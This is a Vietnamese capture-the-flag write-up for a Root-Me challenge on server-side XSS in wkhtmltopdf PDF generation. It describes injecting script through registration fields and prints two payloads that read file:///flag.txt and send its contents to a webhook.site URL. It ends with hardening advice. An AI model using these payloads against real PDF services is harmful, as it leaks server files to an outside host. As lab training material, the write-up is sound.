Challenge: http://challenge01.root-me.org:59083/



Thử nhập 1 đoạn text hợp lệ vào, server sẽ tạo ra 1 Certi và thêm vào đoạn text mình vừa nhập: 


Tìm hiểu về XSS Server Side liên quan đến việc tạo PDF: https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf

Trang này đề cập đến việc server có thể dùng các mã nguồn mở bên ngoài để tạo các đoạn HTML, CSS, ảnh thành PDF. Với việc đầu vào là HTML thì có thể bị chèn và chạy các đoạn javascript hay HTML vào. Và nếu server trả về PDF ta có thể xem thì chỉ cần xuất ra còn nếu server không trả về PDF (Blind) thì cần trả về bên ngoài. 

Thử chèn mã JS vào đoạn nhập text: 


Nó trả về y nguyên mà không có lỗi hay chạy đoạn mã này. 

Thử với tính năng đăng nhập đăng kí. 






Server sẽ thêm cả tên vào Certi, có thể injection vào đường này. Và để chắc chắn hơn, ta sẽ injection cả đoạn JS vào các trường ko hiển thị như login và password. 







Ở kết quả trả về ta thấy không có đoạn mã, đoạn mã có thể đã chạy và vì không trả về kết quả nên không hiển thị. 

Vậy ta sẽ injection 1 đoạn JS khác để chắc chắn trả về. 




Như vậy là chắc chắn nó sẽ trả về ở 2 trường này. 





Test thêm dùng 1 đoạn JS để gửi gói tin ra bên ngoài(dùng webhook):
 



Ta thấy nó có gửi gói tin ra ngoài. 

```
<script>
x=new XMLHttpRequest;x.onload=function(){y=new XMLHttpRequest;y.open("GET","https://webhook.site/0db168bc-7767-41c3-a16f-08b42ac9d23a/"+btoa(this.responseText));y.send();};x.open("GET","file:///flag.txt");x.send();
</script>
```
Dùng đoạn JS để lấy flag và gửi ra ngoài. 


Ta nhận được gói tin với nội dung đang được base64: 


Dùng btoa để đảm bảo nếu nội dung là nhiều dòng nó cũng sẽ base64 để đưa vào link hợp lệ, còn nếu đơn giản có thể dùng: 
```
<script>
x=new XMLHttpRequest;x.onload=function(){y=new XMLHttpRequest;y.open("GET","https://webhook.site/0db168bc-7767-41c3-a16f-08b42ac9d23a/"+encodeURIComponent(this.responseText));y.send();};x.open("GET","file:///flag.txt");x.send();
</script>
```

Thì gói tin gửi về sẽ là: 



Có thể thấy thêm công cụ để tạo PDF là wkhtmltopdf: 



Note: Không tin tưởng hoàn toàn vào các mã nguồn, dịch vụ sẵn bên ngoài thêm vào. Việc --disable-javascript và --disable-local-file-access thì vẫn có thể chạy với các thẻ img, object,...nhưng vẫn phần nào an toàn hơn.